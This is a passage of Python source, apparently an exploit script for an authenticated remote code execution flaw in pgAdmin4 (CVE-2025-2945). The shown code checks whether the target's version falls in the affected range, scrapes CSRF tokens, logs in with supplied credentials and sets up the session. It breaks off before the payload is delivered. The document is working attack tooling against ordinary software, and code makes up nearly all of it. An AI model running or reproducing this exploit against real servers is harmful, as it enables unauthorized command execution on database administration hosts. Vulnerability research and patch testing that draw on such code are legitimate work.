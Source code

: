 ```
        if m := re.search(r"pgAdmin\['csrf_token'\]\s*=\s*'([^']+)'", js_resp.text):
            return m.group(1)
        if m := re.search(r'"csrfToken": "([\w+.-]+)"', js_resp.text):
            return m.group(1)
    print("[!] Failed to retrieve CSRF token")

def exploit(
    target_url: str,
    username: str,
    password: str,
    db_name: str,
    db_user: str,
    db_pass: str,
    payload: str,
    max_server_id: int = 10,
    skip_version_check: bool = False
) -> bool:
    """
    pgAdmin4 query tool authenticated RCE (CVE-2025-2945) exp.

    :return: True if the exploit attempt is (or believed to be) successful,
        otherwise False.
    """
    if not skip_version_check:
        # Check pgAdmin4 version
        version = get_version(target_url)
        if not version:
            print("[!] Unable to determine pgAdmin4 version")
            return False
        elif version < (8, 10) or version >= (9, 2):
            print(f"[!] pgAdmin4 version {version[0]}.{version[1]} is not affected")
            return False
        else:
            print(f"[+] pgAdmin4 version {version[0]}.{version[1]} is affected")

    session = requests.Session()

    # Login
    csrf_token = get_csrf_token(session, target_url)
    if csrf_token is None:
        return False

    resp = session.post(
        urljoin(target_url, 'authenticate/login'),
        data={
            "csrf_token": csrf_token,
            "email": username,
            "password": password,
            "language": "en",
            "internal_button": "login"
        },
        allow_redirects=False,
    )
    if not resp.ok or resp.headers.get('Location', '').endswith('/login'):
        print("[!] Failed to authenticate to pgAdmin")
        return False
    print("[+] Successfully authenticated to pgAdmin")

    # Refresh CSRF token
    csrf_token = get_csrf_token(session, target_url)
    if csrf_token is None:
        return False
    session.headers.update({"X-pgA-CSRFToken": csrf_token})
```